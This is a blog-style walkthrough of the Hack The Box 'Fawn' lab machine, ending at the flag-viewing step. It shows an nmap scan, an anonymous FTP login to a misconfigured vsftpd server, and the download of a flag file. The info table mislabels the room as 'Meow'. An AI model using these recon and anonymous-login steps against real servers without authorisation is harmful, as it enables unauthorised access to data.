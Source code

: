 ```yaml
---
title: "Hack The Box - Fawn"
date: 2022-10-11T22:13:07+05:30
draft: false
description:  " Fawn from HackTheBox is an retired machine which is vulnerable to security Misconfiguration FTP , which can be easily exploited with help of Basic Recon " 
hideToc: false            
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- FTP
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/fawn/fawn1.png
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Fawn Machine.


## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 21 ware open. while trying to connect with default password of anonymous user FTP ware get logged.

## Recon

lets start with initial default scan (-sC) 

port 21 FTP has opened and the version of ftp server is   vsftpd 3.0.3. File Transfer Protocol (FTP) is a standard communication protocol used to transfer computer files from a server to a client on a computer network. FTP is built on a client–server model architecture using separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, generally in the form of a username and password. For secure transmission that protects the username and password and encrypts the content, FTP is often secured
with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).

 if the server is configured insecurely. allows anonymous login then we can able to login username and password as a anonymous. 



```bash
atom@atom-VirtualBox:~/htb/fawn$ nmap -sC -sV 10.129.1.14 -o initialscan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-11 19:57 IST
Nmap scan report for 10.129.1.14
Host is up (0.29s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 592.59 seconds
```

The nmap scan shows that the server allows anonymous login allowed. lets try to login with default credentials.

```bash
atom@atom-VirtualBox:~/htb/fawn$ ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:atom): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

we have successfully logged into FTP. let’s dig for any sensitive files, 

```bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

we have found flag file o ftp home directory, GET command is used to download  target file 

```bash
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (651.0416 kB/s)
ftp>
```
``` cat ``` command is used to viw the content.
